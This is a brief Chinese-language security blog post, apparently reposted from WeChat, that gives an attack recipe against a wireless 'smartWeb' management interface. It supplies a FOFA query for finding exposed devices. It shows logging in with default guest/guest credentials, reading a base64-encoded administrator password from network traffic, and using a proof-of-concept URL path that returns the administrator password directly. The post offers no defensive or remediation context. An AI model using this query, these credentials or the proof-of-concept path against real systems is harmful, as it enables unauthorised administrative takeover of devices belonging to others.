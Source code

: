  原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/9n9TheaNUh39FNttRM4kHA)

fofa 语句：  

title="无线 smartWeb-- 登录页面"

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2TUW3IicCMgLhsAW8cEUB8FwVgYkapmCc6SskEpUTPOBp414iaQfKia9yuvVHAxQZ0Nlic0qqcYnTVyA/640?wx_fmt=png)

我们随便打开一个  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2TUW3IicCMgLhsAW8cEUB8FMd8fgchdicPlyicdSvia0TibfV5xfEIU40s7hBap5rIIu2AjA5zmxEcKBA/640?wx_fmt=png)

用 guest/guest 登陆管理系统，登陆完后，刷新一些后台首页，看一下 network

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2TUW3IicCMgLhsAW8cEUB8Fkq0CrfbuspjrLEiaXwUN44J50TpJhicliclaKRxiaB3zy79m1Q6NJYibUUg/640?wx_fmt=png)

密码去 base64 解密一下就好  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2TUW3IicCMgLhsAW8cEUB8F6McdlGS0Vg3nW4AgOPHOtAm4Ft60hC2SfhiaIyichFwENH1L77tHIBOA/640?wx_fmt=png)

然后再去登陆，已经是管理员权限  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv2TUW3IicCMgLhsAW8cEUB8FFXqdTyBpYsbF8XwAYmkO3qearict7YiaSTmB0wzvHTSOZyETySGQGTgw/640?wx_fmt=png)

当然我们还可以使用下面的 POC，一样会返回管理员密码  

http://xxx.xxx.xxx.xxx/web/xml/webuser-auth.xml

